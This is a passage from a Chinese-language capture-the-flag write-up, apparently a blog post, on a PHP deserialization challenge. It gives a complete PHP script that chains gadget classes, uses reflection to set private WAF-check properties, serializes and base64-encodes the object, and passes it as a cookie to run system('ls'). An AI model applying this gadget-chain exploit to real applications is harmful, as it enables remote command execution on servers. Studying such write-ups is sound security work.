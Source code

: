 **我特地加unset只是方便新手理解destruct调用过程，实际上不用unset在运行结束后垃圾回收也会销毁这个类。**

运行看下效果：
![在这里插入图片描述](https://img-blog.csdnimg.cn/35c649218cdd4169a1091a2f6922c040.png)

事实上你如果了解过autoloader和php反序列化与加载特性，那你就会知道这道题已经解决了，基本功请自行搜索。

我们直接把上面的内容base64encode后，作为cookie参数传入，就可以直接执行命令。

完整payload：

```php
<?php

require_once 'GadgetOne/Adders.php';
require_once 'GadgetThree/Vuln.php';
require_once 'GadgetTwo/Echoers.php';

use GadgetOne\Adders;
use GadgetThree\Vuln;
use GadgetTwo\Echoers;

$vuln = new Vuln();
$vuln->cmd = "system('ls');";
$vuln->waf1 = 1;

// 使用PHP的反射API来设置protected和private属性
$reflector = new ReflectionObject($vuln);
$waf2 = $reflector->getProperty('waf2');
$waf2->setAccessible(true);
$waf2->setValue($vuln, "\xde\xad\xbe\xef");

$waf3 = $reflector->getProperty('waf3');
$waf3->setAccessible(true);
$waf3->setValue($vuln, false);

$adders = new Adders($vuln);

$echoers = new Echoers();

// 使用PHP的反射API来设置protected属性
$reflector = new ReflectionObject($echoers);
$klass = $reflector->getProperty('klass');
$klass->setAccessible(true);
$klass->setValue($echoers, $adders);

$payload = serialize($echoers);
$payloadBase64 = base64_encode($payload);

echo $payloadBase64;
?>

```
咱们直接ls,并作为cookie传过去：
